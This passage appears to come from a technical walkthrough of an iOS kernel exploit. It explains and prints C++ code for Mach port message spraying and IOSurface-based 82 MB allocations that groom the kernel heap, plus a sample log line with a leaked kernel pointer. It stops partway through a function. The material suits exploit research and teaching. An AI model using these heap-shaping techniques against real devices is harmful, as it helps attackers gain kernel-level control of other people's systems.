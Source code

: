 **It fills a single port with messages that kalloc size is 8 pages, up to queue limit, thereby packing kernel heap into contiguous 8-page blocks.**

```cpp
// make a bunch of 8 page allocations to ensure there are no holes that mess with our allocations
    mach_port_t spray = POP_PORT();
    msg_size = message_size_for_kalloc_size(8 * pagesize) - sizeof(struct simple_msg);
    data = calloc(1, msg_size);
    
    #if ENABLE_HELPER
    //helper; set signature
    memset(data, 0x81, msg_size);
    #endif

    for (int i = 0; i < MACH_PORT_QLIMIT_LARGE; i++) {  //MACH_PORT_QLIMIT_LARGE = (1024)
        kern_return_t ret = send_message(spray, data, msg_size);
        if (ret) {
            printf("[-] Failed to send message\n");
            goto err;
        }
    }

    #if ENABLE_HELPER
    //helper; obtain msgdata_kptr 
    uint64_t kmsgdata_kptr = find_kmsgdata_from_port(spray);
    INFO("spray(port=0x%x)'s msgdata_kptr = 0x%llx\n", spray, kmsgdata_kptr);
    // getchar();
    //
    #endif
```

```cpp
[*] spray(port=0x1c03)'s msgdata_kptr = 0xffffffe02cff8048
```

## Start of actual heap setup

```cpp
    // ----------- heap stage 1 setup -----------//
    
    INFO("Doing stage 1 heap setup\n");
```

## 1. Allocating 82 MB memory region using IOSurface

IOSurface is kernel driver used for handling and processing graphics buffers. When we obtain UserClient to communicate with this driver, it becomes useful for kernel heap allocations or spraying.

Here we use IOSurface method `IOSurfaceRootUserClient::set_value` to load 82 MB block of empty data.

```cpp
 int IOSurface_empty_kalloc(uint32_t size, uint32_t kalloc_key) {
    uint32_t capacity = size / 16;
    
    if (capacity > 0x00ffffff) {
        printf("[-][IOSurface] Size too big for OSUnserializeBinary\n");
        return KERN_FAILURE;
    }
    
    size_t args_size = sizeof(struct IOSurfaceValueArgs) + 9 * 4;
    
    struct IOSurfaceValueArgs *args = calloc(1, args_size);
    args->surface_id = IOSurface_id;
    
    int i = 0;
```
